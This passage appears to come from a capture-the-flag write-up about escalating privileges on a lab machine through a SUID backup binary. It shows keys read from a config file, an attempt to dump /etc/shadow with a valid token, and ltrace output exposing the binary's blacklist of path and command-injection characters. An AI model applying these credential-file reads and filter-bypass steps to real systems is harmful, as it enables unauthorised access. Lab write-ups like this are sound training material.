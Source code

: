 We can read these keys on the machine:

```
mark@node:/home/tom$ cat /etc/myplace/keys
a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508
45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110
```

I can try each token, and find that one works as there's a different error:

```
$ ./backup_binary -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d47 a a
[!] Could not open file
```

The last argument would have to be the file we want to 'backup'.&#x20;

So there's 3 methods of exploiting this so far:

* Either BOF and get a root shell
* Reading root flag and `/etc/shadow` and (hopefully) find a password.
* Possibly command injection

### Shadow Fail

I chose the second becuase it's easier. In this case, I chose to backup the `/etc/shadow` file by doing this, and found that it didn't work.

```
backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d47 /etc/shadow > backup.shadow
```

<figure><img src="../../../.gitbook/assets/image (16) (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

I took a look at the `ltrace` output again and found out why it woudln't work. It seems that some directories are blacklisted when I tried to backup the user's directory:

```
strstr("/home/tom", "..")                        = nil                                       
strstr("/home/tom", "/root")                     = nil                                       
strchr("/home/tom", ';')                         = nil                                       
strchr("/home/tom", '&')                         = nil                                       
strchr("/home/tom", '`')                         = nil                                       
strchr("/home/tom", '$')                         = nil                                       
strchr("/home/tom", '|')                         = nil                                       
strstr("/home/tom", "//")                        = nil                                       
strcmp("/home/tom", "/")                         = 1                                         
strstr("/home/tom", "/etc")                      = nil                                       
strcpy(0xffcfcd7b, "/home/tom")                  = 0xffcfcd7b
```
